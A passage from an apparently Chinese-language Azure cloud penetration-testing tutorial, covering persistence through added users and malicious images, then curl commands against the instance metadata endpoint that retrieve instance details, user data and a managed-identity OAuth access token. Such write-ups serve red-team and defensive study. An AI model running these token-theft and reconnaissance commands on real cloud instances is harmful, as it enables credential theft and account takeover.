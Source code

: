 再用添加的用户去访问，可以控制该订阅下的所有资源
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-13/1649831488-266770-image.png)


### 3、恶意镜像
我们可以通过创建镜像功能来创建恶意镜像
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-13/1649831494-278581-image.png)


## 0x05、信息收集
### 1、元数据
微软云元数据以 REST API 的形式公开。它的根端点是http://169.254.169.254/metadata
获取实例元数据，实例元数据提供 VM 配置信息
`curl -H Metadata:true http://169.254.169.254/metadata/instance?api-version=2021-05-01`
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-13/1649831551-301211-image.png)

获取认证数据
`curl -H Metadata:true http://169.254.169.254/metadata/attested/document?api-version=2021-05-01
`
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-13/1649831559-131214-image.png)

获取负载均衡器元数据
`curl -H Metadata:true http://169.254.169.254/metadata/loadbalancer?api-version=2021-05-01
`

获取网络信息
`curl -H Metadata:true http://169.254.169.254/metadata/instance/network/interface/0?api-version=2021-01-01`
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-13/1649831570-893215-image.png)


获取用户数据
`curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text" | base64 --decode
`
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-13/1649831575-254295-image.png)


获取访问令牌
```
response=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s)
access_token=$(echo $response | python -c 'import sys, json; print (json.load(sys.stdin)["access_token"])')
echo The managed identities for Azure resources access token is $access_token
```
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-13/1649831585-233585-image.png)



### 2、资源信息
通过控制台所有资源查看该账户下所有资源。
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-13/1649831605-196310-image.png)

